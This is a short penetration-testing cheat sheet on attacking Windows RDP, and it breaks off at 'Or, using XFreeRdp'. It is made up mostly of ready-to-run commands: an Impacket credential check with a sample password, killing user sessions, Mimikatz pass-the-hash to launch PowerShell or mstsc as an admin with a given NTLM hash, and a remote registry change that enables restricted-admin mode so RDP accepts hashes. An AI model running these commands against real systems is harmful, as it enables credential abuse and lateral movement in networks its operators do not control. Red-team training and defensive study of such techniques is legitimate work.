 #### Impacket

```
rdp_check.py 'vault/administrator:Password123!@192.168.83.122'
```

#### Kill User Session

```
# get sessions
qwinsta /server:<server>

# kill session
rwinsta /server:<server> <session number>
```

#### Restricted Admin 

Make a "restrictedadmin" connection

```
# uses current logon session & does not require cleartext creds
mstsc.exe /restrictedadmin
```

Enable/Disable - `HKLM:\System\CurrentControlSet\Control\Lsa`

#### Remotely Enable RDP Restricted Admin 

Launch local instance of powershell in the context of admin via Mimikatz

```
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:powershell
```

Open a PS session on target & enable restrictedadmin

```
PS> Enter-PSSession -Computer appsrv01

PS> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Pass the Hash RDP

Restricted mode protects against credential attacks but allows for pass-the-hash connections. 

```
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:"mstsc.exe /restrictedadmin"
```

Or, using XFreeRdp
